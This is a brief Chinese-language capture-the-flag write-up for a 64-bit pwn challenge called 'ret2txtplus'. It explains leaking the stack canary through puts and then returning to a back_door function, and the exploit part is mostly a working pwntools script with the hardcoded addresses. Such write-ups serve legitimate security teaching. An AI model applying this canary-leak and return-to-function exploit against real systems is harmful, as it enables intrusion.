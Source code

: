 # ret2txtplus

~~当我在想为什么题目会多一个e时我自己就多输了1个e~~

## 文件分析

下载`ret2txtp`, NX on, PIE off, Canary on, RELRO no  
ghidra分析为64位程序

## 解题思路

通过溢出canary的第一个字符，可以借助puts把剩下的canary打印出来，
因为没有pie，直接返回到`back_door`即可（需要ret补rsp）

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10038)
sh.sendline(b'0'*0x17 + b'.') # '\n' override 1st byte of canary
sh.recvuntil(b'.\n')
data = sh.recvline()
canary = u64(b'\0' + data[:7])
sh.sendline(b'0'*0x18 + p64(canary) + b'0'*8 + p64(0x4007a6) + p64(0x400761)) # ret; back_doorAddr
sh.interactive()
```

Done.

